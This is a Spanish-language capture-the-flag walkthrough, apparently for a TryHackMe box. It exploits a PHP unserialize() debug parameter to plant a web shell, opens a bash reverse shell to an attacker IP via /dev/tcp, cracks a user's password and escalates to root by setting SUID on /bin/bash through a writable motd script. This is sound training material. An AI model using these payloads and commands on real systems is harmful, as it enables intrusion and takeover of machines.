 ### Tags: `PHP` `deseralation` `motd`

# Escaneo (*22, 80*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
```

![image](https://github.com/user-attachments/assets/6807af1d-d607-4c41-a853-05012d700cf5)


# Port 80 **/** gobuster

Como vimos es un web de **apache por defecto** y por ende vamos a tirar un **Gobuster** para descubrir directorios

```ruby
gobuster dir -q -u http://<ip> -w /usr/share/wordlists/dirb/common.txt   
```

Encontramos un `/backup` y un `index.php`

![image](https://github.com/user-attachments/assets/5ca68162-e2c3-41f4-964e-e0491c9f9f22)

El `index.php` tiene esto:

![image](https://github.com/user-attachments/assets/3f770d4f-1b82-4f04-b745-8c2c91f4c278)

En el `/backup` nos descargamos este archivo a nuestra maquina

![image](https://github.com/user-attachments/assets/3b1e038f-721d-4a75-9977-b4272a6567f6)

Vemos que tenemos una pista en este mensaje de este codigo

```php
<?php

class FormSubmit {

public $form_file = 'message.txt';
public $message = '';

public function SaveMessage() {

$NameArea = $_GET['name']; 
$EmailArea = $_GET['email'];
$TextArea = $_GET['comments'];

        $this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";

}

public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';

}

}

// Leaving this for now... only for debug purposes... do not touch!

$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();


?>
```


El código PHP toma el nombre, el correo electrónico y el comentario que se pasan en el GET mediante un formulario en la página. Utiliza esos valores para crear un mensaje que se escribe en el archivo `message.txt`cuando se destruye el objeto y podemos simplemente ingresar un `$_GET['debug']`parámetro de depuración con la entrada serializada y el código fuente lo deserializará.

![image](https://github.com/user-attachments/assets/b74e76db-6d2b-407e-9813-caa50984d355)


Lo que hacemos ahora es crearnos este **archivo.php**

```php
<?php
class FormSubmit{
        public $form_file = 'pawned.php';
        public $message = '<?php system($_GET["cmd"]); ?>';
}
$obj = new FormSubmit();
echo serialize($obj);
?>
```

Ahora lo probamos y nos da el ``objeto serializado`` ---> comando: `php <nombre_del_archivo>`

```php
O:10:"FormSubmit":2:{s:9:"form_file";s:10:"pawned.php";s:7:"message";s:30:"<?php system($_GET["cmd"]); ?>";}
```

- - `O`  significa objeto
- `O:10`  significa la longitud del nombre del objeto (es decir, ---> 10)
- `2:{`  significa que hay dos propiedades/atributos
- `s:9`  significa que nuestra propiedad/atributo es una cadena y tiene una longitud de 9 caracteres
- `s:9:"form_file";`  Longitud de 9 y nombre de la propiedad


### Cyberchef

Nos copiamos el objeto serializado de antes vamos a [CyberChef](https://gchq.github.io/CyberChef/) y  lo URL encodíamos 

![image](https://github.com/user-attachments/assets/3405e0ad-7e9f-4847-9b81-95b22a41b9be)

Ahora en la web ponemos lo que conseguimos anteriormente de la siguiente manera:

```css
http://<IP>/index.php?debug=O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form%5Ffile%22%3Bs%3A10%3A%22pawned%2Ephp%22%3Bs%3A7%3A%22message%22%3Bs%3A30%3A%22%3C%3Fphp%20system%28%24%5FGET%5B%22cmd%22%5D%29%3B%20%3F%3E%22%3B%7D
```

Una ves hecho eso, sino vamos a `http://<IP>/pawned.php?cmd=id`

![image](https://github.com/user-attachments/assets/4cd3f4f0-148b-4abb-8b58-0ad2ac7c98c0)

Nos entablamos una reverse shell --> `bash -c "bash -i >%26 /dev/tcp/<ip>/1234 0>%261"`

![image](https://github.com/user-attachments/assets/e6bb672e-c4e1-4a14-a3f8-58a570a11b90)


# Escalada (`james`)

Encontramos la contraseña de james pero no esta en texto plano, entonces tenemos que romperla

![image](https://github.com/user-attachments/assets/73c89fec-63d0-43cb-8fc3-3b18fb85cc91)

Con `John The Ripper` obtuvimos la contraseña -->  `jamaica`

![image](https://github.com/user-attachments/assets/deda4fcc-8d2d-4f11-8def-d18b1eab7242)
![image](https://github.com/user-attachments/assets/e41b5b59-9653-402b-8e6c-1c531440dc53)


# Escalada `ROOT`

Dentro del directorio de **James** y un archivito `Note-To-James.txt` que dice esto:

```txt
Dear James,

As you may already know, we are soon planning to submit this machine to THM's CyberSecurity Platform! Crazy... Isn't it? 

But there's still one thing I'd like you to do, before the submission.

Could you please make our ssh welcome message a bit more pretty... you know... something beautiful :D

I gave you access to modify all these files :) 

Oh and one last thing... You gotta hurry up! We don't have much time left until the submission!

Best Regards,

root
```

La nota básicamente dice que nos dio acceso para modificar todos estos archivos el Mensaje del día ( `motd`).

![image](https://github.com/user-attachments/assets/b3197963-41de-4be7-a9f7-0db7959b18bd)

Como tenemos todos los permisos lo que hacemos es abrirno un archivo y poner:

```bash
chmod u+s /bin/bash
```

![image](https://github.com/user-attachments/assets/3ad7b478-ce40-4317-94df-7c61f2b4a65b)

Ahora volvés a entrar a la máquina por **SSH** y ponemos esto:

```bash
ssh@james<IP>
bash -p
```

![image](https://github.com/user-attachments/assets/e989d26f-27bb-40dd-bbfc-ee14005d919b)








